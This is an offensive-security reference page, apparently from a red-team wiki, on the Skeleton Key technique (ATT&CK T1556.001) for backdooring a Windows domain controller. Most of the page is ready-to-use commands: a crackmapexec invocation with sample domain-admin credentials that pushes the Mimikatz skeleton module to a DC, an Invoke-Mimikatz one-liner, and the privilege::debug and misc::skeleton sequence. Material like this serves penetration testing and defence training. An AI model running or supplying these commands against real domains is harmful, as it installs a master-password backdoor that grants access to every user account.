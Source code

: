```yaml
---
description: https://attack.mitre.org/techniques/T1556/001/
---
```


# Domain Controller Authentication: Skeleton Key

**ATT\&CK ID:** [T1556.001](https://attack.mitre.org/techniques/T1556/001/)

**Permissions Required:** <mark style="color:red;">**Administrator**</mark> | <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries may patch the authentication process on a domain controller to bypass the typical authentication mechanisms and enable access to accounts.

Malware may be used to inject false credentials into the authentication process on a domain controller with the intent of creating a backdoor used to access any user’s account and/or credentials (ex: Skeleton Key). Skeleton key works through a patch on an enterprise domain controller authentication process (LSASS) with credentials that adversaries may use to bypass the standard authentication system. Once patched, an adversary can use the injected password to successfully authenticate as any domain user account (until the the skeleton key is erased from memory by a reboot of the domain controller). Authenticated access may enable unfettered access to hosts and/or resources within single-factor authentication environments.

## Techniques

### Crackmapexec

With valid Domain Admin credentials `crackmapexec` can be used to inject the `Mimikatz` module and Skeleton key command directly to a target Domain Controller.

```bash
crackmapexec smb '10.10.10.10' -u 'Moe' -p 'Password123!' -M mimikatz -o COMMAND='misc::skeleton'
```

### Skeleton Key (Mimikatz)

```powershell
Invoke-Mimikatz -Command '"token::elevate" "misc::skeleton"'
```

## Scenario

After `Mimikatz` has been dropped onto a Domain Controller and executed with Domain Admin privileges the following simple command can be used to perform the exploit.

```bash
privilege::debug #Check for '20' OK debug rights.
misc::skeleton
```
